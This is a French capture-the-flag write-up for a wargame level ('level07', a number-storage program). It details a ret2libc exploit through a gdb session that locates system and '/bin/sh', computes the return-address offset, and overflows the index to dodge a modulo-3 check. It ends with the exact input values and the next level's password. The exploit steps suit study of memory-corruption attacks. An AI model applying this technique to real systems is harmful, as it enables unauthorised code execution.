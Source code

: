 1. En ecrivant la source on comprend que l'on peut ecrire sur des zones memoires a l'aide du programme. La seule condition est de ne pas donner un index multiple de 3 ou dont la division par `16777216` donne `183`.

2. Sachant cela et le fait que les variables d'environnement sont bzero, on va faire un RET2LIBC.

```
(gdb) b *0x08048636

(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()

(gdb) x $ebp+0x8
0xffffd400:	0xffffd424

(gdb) info function puts
[...]
0x080484c0  puts

(gdb) disas 0x080484c0
Dump of assembler code for function puts@plt:
   0x080484c0 <+0>:	jmp    *0x804a014
   0x080484c6 <+6>:	push   $0x28
   0x080484cb <+11>:	jmp    0x8048460
End of assembler dump.

(gdb) info proc map
0xf7e2c000...0xf7fd0000

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec

(gdb) info functions system
0xf7e6aed0  system

(gdb) b *0x080489f1 
(gdb) c
[...]
quit

Breakpoint 2, 0x080489f1 in main ()

(gdb) x/wx $esp
0xffffd5c8:	0xf7e45513
```

> Adresse de "/bin/sh" `0xf7f897ec = 4160264172`
> Adresse de system    `0xf7e6aed0 = 4159090384`
> Offset de l'EIP      `0xffffd5c8 - 0xffffd400 = 456` donc `114`

```
// On ne peut pas utiliser 114
114 % 3 == 0

// On va donc overflow l'uint32
0xffffffff / 4 + 114 + 1 = 1073741938

// On verifie
1073741938 % 3 = 1
```

> Number : `4160264172`
> Index : `116`
> Number : `4159090384`
> Index : `1073741938`


> Pass : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
